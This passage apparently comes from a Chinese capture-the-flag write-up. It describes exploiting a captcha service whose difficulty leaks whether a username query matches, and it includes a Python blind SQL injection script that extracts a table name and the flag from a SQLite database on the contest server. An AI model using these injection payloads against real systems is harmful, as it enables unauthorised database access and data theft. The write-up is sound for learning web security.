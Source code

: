 ## 你先别急

尝试几次会发现验证码的复杂度会根据 `username` 确定，并且未找到的情况下是最复杂的，然后就人肉 sqlmap 盲注了（

```python
import requests
import base64
import os

url = "http://202.38.93.111:11230/captcha"

# payload={
#     "username": "Simple-1' and (select tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 1) like 'flag%' and '1'='1"
# }

chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_"
current_str = ""

os.system("rm bf/*")

for i in chars:
    payload={
        "username": "Simple-1' and (select flag from flag limit 1 offset 0) like 'flag{" + current_str + i + "%}' and '1'='1"
    }

    # payload={
    #     "username": "Simple-1' and substr((select flag from flag limit 1 offset 0), 0, 20) = 'flag{JiJi203e981dfa' and '1'='1"
    # }

    # payload={
    #     "username": "Simple-1' and unicode(substr((select flag from flag limit 1 offset 0), 8, 1)) =74 and '1'='1"
    # }

    files=[

    ]
    headers = {
      # some headers
    }

    response = requests.request("POST", url, headers=headers, data=payload, files=files)

    print(response.json())

    f = open("bf/" + current_str + i + ".png", "wb")
    f.write(base64.b64decode(response.json()["result"]))
    f.close()

    quit()
```
